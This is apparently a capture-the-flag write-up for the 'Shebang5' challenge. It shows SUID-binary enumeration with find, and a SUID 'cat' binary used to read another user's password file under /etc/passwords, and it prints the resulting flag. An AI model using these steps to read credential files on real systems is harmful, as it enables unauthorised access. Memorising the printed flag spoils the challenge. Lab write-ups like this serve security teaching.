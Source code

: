 # Shebang5

![Category](http://img.shields.io/badge/Category-Shebang-orange?style=for-the-badge) ![Points](http://img.shields.io/badge/Points-250-brightgreen?style=for-the-badge)

We connect to the shell using this command `ssh -p 1337 shebang5@cyberyoddha.baycyber.net` and the flag from the Shebang4 challenge as the password.

There is a clue for this chelleneg in the description which reads;

> "there is a very bad file on this Server. can yoU fInD it."

Notice the capitalisation of `U` `I` & `D` in the above clue;

That makes me think we're looking for a SUID binary.

```
shebang5@fe2149a30ae1:~$ find / -path /sys -prune -o -path /proc -prune -o -perm /4000
/var/tmp/hi/bash
find: '/var/cache/ldconfig': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/cache/private': Permission denied
find: '/var/log/private': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/var/lib/private': Permission denied
/var/cat
find: '/etc/ssl/private': Permission denied
find: '/run/lock': Permission denied
find: '/run/sudo': Permission denied
/proc
find: '/home/shebang4': Permission denied
find: '/home/shebang3': Permission denied
find: '/home/shebang2': Permission denied
find: '/home/shebang1': Permission denied
find: '/home/shebang0': Permission denied
/sys
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
find: '/root': Permission denied
```

`/var/cat` looks inteersting?.!

```
shebang5@fe2149a30ae1:~$ ls -al /var/cat
---s--x--x 1 shebang6 root 16992 Oct 14 20:51 /var/cat
```

OK, so "**shebang6**" is the owner of this file... and it has the SUID bit set on it! 

Now lets see if there are any files owened by 'shebang6';

```
shebang5@fe2149a30ae1:~$ find / -path /sys -prune -o -path /proc -prune -o -user shebang6
find: '/var/cache/ldconfig': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/cache/private': Permission denied
find: '/var/log/private': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/var/lib/private': Permission denied
/var/cat
/etc/passwords/shebang6
find: '/etc/ssl/private': Permission denied
find: '/run/lock': Permission denied
find: '/run/sudo': Permission denied
/proc
find: '/home/shebang4': Permission denied
find: '/home/shebang3': Permission denied
find: '/home/shebang2': Permission denied
find: '/home/shebang1': Permission denied
find: '/home/shebang0': Permission denied
/sys
find: '/root': Permission denied
```

We can see from the above output the file `/etc/passwords/shebang6`. That's got to be something?!

running the /var/cat binary against the file we get the following;

```
shebang5@fe2149a30ae1:~$ /var/cat /etc/passwords/shebang6 
CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}
```

And there's the flag;

## `CYCTF{W3ll_1_gu3$$_SU1D_1$_e@$y_fl@g$}`
